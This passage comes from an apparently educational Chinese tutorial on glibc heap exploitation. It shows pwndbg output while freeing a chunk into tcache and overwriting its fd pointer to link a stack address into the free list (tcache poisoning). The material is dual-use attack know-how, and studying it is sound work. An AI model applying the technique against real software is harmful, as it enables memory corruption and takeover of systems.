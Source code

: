 ```
  bk_nextsize = 0x0
}
```

此时可能有同学会比较疑惑，我们明明只malloc了一个size为128的chunk为什么最前面有一个大小为0x251的chunk嘞,这个其实就是tcache_perthread_struct这个用来管理tcache的结构体

好了，解决了这个问题我们就继续下一步吧，让我们free掉a

```
pwndbg&gt; bins
tcachebins
0x90 [  1]: 0x555555756260 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

可以看到此时我们的chunk a已经被放到了tcache中

此时我们所需要做的就极其简单了，因为tcache没有检查size是否符合规格这一设定，因此我们直接覆写chunk a 的fd指针，让他链在我们的free list中

```
pwndbg&gt; bins
tcachebins
0x90 [  1]: 0x555555756260 —▸ 0x7fffffffe5c0 ◂— ...
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg&gt; x/10gx 0x555555756250
0x555555756250:    0x0000000000000000    0x0000000000000091
0x555555756260:    0x00007fffffffe5c0    0x0000000000000000
0x555555756270:    0x0000000000000000    0x0000000000000000
0x555555756280:    0x0000000000000000    0x0000000000000000
0x555555756290:    0x0000000000000000    0x0000000000000000
```
